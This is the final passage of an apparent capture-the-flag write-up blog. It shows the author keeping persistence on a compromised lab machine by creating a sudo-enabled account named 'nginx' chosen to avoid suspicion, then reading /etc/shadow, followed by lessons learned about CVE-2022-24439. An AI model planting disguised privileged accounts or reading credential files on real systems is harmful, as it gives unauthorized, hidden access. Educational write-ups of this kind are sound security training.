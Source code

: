 
## 5. Persistence: {#5-dot-persistence}


### Creating a high privileged "service" account for persistence: {#creating-a-high-privileged-service-account-for-persistence}

-   I create an account called "nginx" and give myself root privileges &amp; access to the bash shell. I use this name as it's one you could see on a machine and will raise less suspicion.

-   {{< figure src="/ox-hugo/2024-12-22-090631_.png" >}}
    -   `sudo useradd -m -s /bin/bash nginx`
        -   Creates a new user named `nginx`.
        -   `-m`: Creates a home directory for the user.
        -   `-s /bin/bash`: Sets the user's default shell to `/bin/bash`.

    -   `sudo usermod -aG sudo nginx`
        -   Adds the `nginx` user to the `sudo` group.
        -   `-a`: Appends the user to the group (avoids overwriting existing groups).
        -   `-G sudo`: Specifies the `sudo` group.

    -   `sudo passwd nginx`
        -   Sets or updates the password for the `nginx` user.
        -   Prompts us to add a new password and confirms it.

-   I switch to the newly created user
    -   {{< figure src="/ox-hugo/2024-12-22-090700_.png" >}}

-   I check we have sudo privileges, as expected we do.
    -   {{< figure src="/ox-hugo/2024-12-22-090731_.png" >}}

-   I ensure we can actually read sudo level files by reading `/etc/shadow`
    -   {{< figure src="/ox-hugo/2024-12-22-090801_.png" >}}


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I learned about retrieving data from git logs.
2.  I learned about the python git vulnerability CVE-2022-24439:


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  Oh I did not use a forward slash at one point in a command and that was stumping reading the API endpoints at one point, that was fun.


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at proton dot me


